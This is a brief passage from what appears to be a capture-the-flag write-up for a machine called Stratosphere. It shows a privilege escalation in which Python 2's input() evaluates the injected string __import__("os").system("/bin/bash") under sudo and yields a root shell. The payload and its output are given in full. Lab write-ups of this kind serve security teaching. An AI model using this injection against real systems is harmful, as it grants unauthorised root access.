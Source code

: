 # python2

In python2, input is equivalent to `eval(raw_input())`

```
richard@stratosphere:~$ sudo  /usr/bin/python2 /home/richard/test.py
```

```
Solve: 5af003e100c80923ec04d65933d382cb
__import__("os").system("/bin/bash")
root@stratosphere:/home/richard# id
uid=0(root) gid=0(root) groups=0(root)
```

